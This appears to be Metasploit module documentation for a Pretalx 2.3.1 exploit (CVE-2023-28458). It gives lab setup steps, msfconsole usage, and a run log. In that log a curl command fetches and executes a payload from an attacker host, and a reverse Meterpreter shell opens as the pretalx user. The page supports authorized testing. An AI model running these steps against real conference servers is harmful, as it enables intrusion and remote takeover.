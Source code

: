 ## Vulnerable Application

Pretalx is a web-based conference planning tool, used to manage call for paper submissions, talk selection and so on. It used by many major IT conferences - such as OffensiveCon, Hexacon,... Versions 2.3.1 and prior are vulnerable to arbitrary file read, which exploits unsanitized path in schedule export. The module requires set of credentials of Pretalx user and Pretalx needs to have existing conference, where the attacker can submit malicious proposal.

Installation steps:

1. `git clone https://github.com/pretalx/pretalx-docker.git`
1. Change content of `Dockerfile`:
```
FROM python:3.10-bookworm

RUN apt-get update && \
    apt-get install -y git gettext libmariadb-dev libpq-dev locales libmemcached-dev build-essential \
            supervisor \
            sudo \
            locales \
            --no-install-recommends && \
    apt-get clean && \
    rm -rf /var/lib/apt/lists/* && \
    dpkg-reconfigure locales && \
    locale-gen C.UTF-8 && \
    /usr/sbin/update-locale LANG=C.UTF-8 && \
    mkdir /etc/pretalx && \
    mkdir /data && \
    mkdir /public && \
    groupadd -g 999 pretalxuser && \
    useradd -r -u 999 -g pretalxuser -d /pretalx -ms /bin/bash pretalxuser && \
    echo 'pretalxuser ALL=(ALL) NOPASSWD:SETENV: /usr/bin/supervisord' >> /etc/sudoers

ENV LC_ALL=C.UTF-8


COPY pretalx/pyproject.toml /pretalx
COPY pretalx/src /pretalx/src
COPY deployment/docker/pretalx.bash /usr/local/bin/pretalx
COPY deployment/docker/supervisord.conf /etc/supervisord.conf

RUN pip3 install -U pip setuptools wheel typing && \
    pip3 install -e /pretalx/[mysql,postgres,redis] && \
    pip3 install pylibmc && \
    pip3 install gunicorn && \
    chmod -R 777 /public


RUN python3 -m pretalx makemigrations
RUN python3 -m pretalx migrate

RUN apt-get update && \
    apt-get install -y curl && \
    curl -fsSL https://deb.nodesource.com/setup_20.x | bash - && \
    apt install nodejs npm && \
    apt-get clean && \
    rm -rf /var/lib/apt/lists/* && \
    python3 -m pretalx rebuild

RUN chmod +x /usr/local/bin/pretalx && \
    cd /pretalx/src && \
    rm -f pretalx.cfg && \
    chown -R pretalxuser:pretalxuser /pretalx /data /public && \
    rm -f /pretalx/src/data/.secret

USER pretalxuser
VOLUME ["/etc/pretalx", "/data", "/public"]
EXPOSE 80
ENTRYPOINT ["pretalx"]
CMD ["all"]
```
1. Change content of `docker-compose.yml` to following:
```
services:
  pretalx:
    image: pretalx/standalone:v2.3.1
      # image: pretalx/dev
    # build: .
    container_name: pretalx
    restart: unless-stopped
    depends_on:
      - redis
      - db
    environment:
      # Hint: Make sure you serve all requests for the `/static/` and `/media/` paths when debug is False. See [installation](https://docs.pretalx.org/administrator/installation/#step-7-ssl) for more information
      PRETALX_FILESYSTEM_MEDIA: /public/media
      PRETALX_FILESYSTEM_STATIC: /public/static
    ports:
      - "80:80"
    volumes:
      - ./conf/pretalx.cfg:/etc/pretalx/pretalx.cfg:ro
      - pretalx-data:/data
      - pretalx-public:/public

  db:
    image: docker.io/library/postgres:15-alpine
    container_name: pretalx-db
    restart: unless-stopped
    volumes:
      - pretalx-database:/var/lib/postgresql/data
    environment:
      POSTGRES_PASSWORD: veryunsecureplschange # same password as one that you will put in pretalx.cfg file later on
      POSTGRES_USER: pretalx
      POSTGRES_DB: pretalx

  redis:
    image: redis:latest
    container_name: pretalx-redis
    restart: unless-stopped
    volumes:
      - pretalx-redis:/data

volumes:
  pretalx-database:
  pretalx-data:
  pretalx-public:
  pretalx-redis:
```
1. `sudo docker-compose up`
1. Setup username and password - `sudo docker exec -it pretalx pretalx init`
1. Go to `orga/event/`
1. Create new conference
1. Go to `orga/event/[conference name]/schedule/rooms/`
1. Create a room
1. Go to `orga/event/[conference name]/`
1. Make conference go live
1. `sudo docker exec -u 0 -it pretalx /bin/bash`
1. Make sure you have correct right on `/data` folder, so `pretalx` user can write export there


## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use exploit/linux/http/pretalx_rce_cve_2023_28458`
1. Do: `set CONFERENCE_NAME [conference name]`
1. Do: `set EMAIL [user email]`
1. Do: `set PASSWORD [password]`
1. Do: `set PYTHON_VERSION [running Python version - e.g. python3.8]`
1. Do: `set RHOSTS [target IP address]`
1. Do: `run`
1. Wait for shell to be spawned by *cron* (or run Python3 as `pretalx` user)

## Options

### CONFERENCE_NAME

The slug (shortcut) name of the conference. The module requires existing conference, where an attacker can submit malicious proposal (e.g. conference-secret-2025)

### PYTHON_VERSION

The module needs to know running python version to be able to properly select a directory for malicious hook.

### EMAIL

Email of Pretalx user that can approve proposals and release schedule.

### PASSWORD

Password of Pretalx user that can approve proposals and release schedule.

## Scenarios
```
msf exploit(linux/http/pretalx_rce_cve_2023_28458) > run verbose=true 
[*] Command to run on remote host: curl -so ./SeHhGRHU http://192.168.168.128:8888/Q7JGOkCYlO14PhxIQeJRIQ;chmod +x ./SeHhGRHU;./SeHhGRHU&
[*] Fetch handler listening on 192.168.168.128:8888
[*] HTTP server started
[*] Adding resource /Q7JGOkCYlO14PhxIQeJRIQ
[*] Started reverse TCP handler on 192.168.168.128:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Detected vulnerable version 2.3.1 and debug mode is enabled
[*] Registering malicious speaker and proposal
[*] Logging with credentials: martin_sutovsky@rapid7.com/kali
[*] Approving proposal
[*] Uploading resource with payload
[*] Inserts write primitve
[*] Adding proposal to schedule
[*] Releasing schedule
[*] Exporting schedule
[*] Waiting for cron to run Python under Pretalx user
[*] Client 192.168.168.146 requested /Q7JGOkCYlO14PhxIQeJRIQ
[*] Sending payload to 192.168.168.146 (curl/7.74.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3090404 bytes) to 192.168.168.146
[*] Meterpreter session 1 opened (192.168.168.128:4444 -> 192.168.168.146:48816) at 2025-08-22 15:15:28 +0200

meterpreter > sysinfo 
Computer     : 172.18.0.4
OS           : Debian 11.2 (Linux 6.8.0-60-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid 
Server username: pretalxuser

```


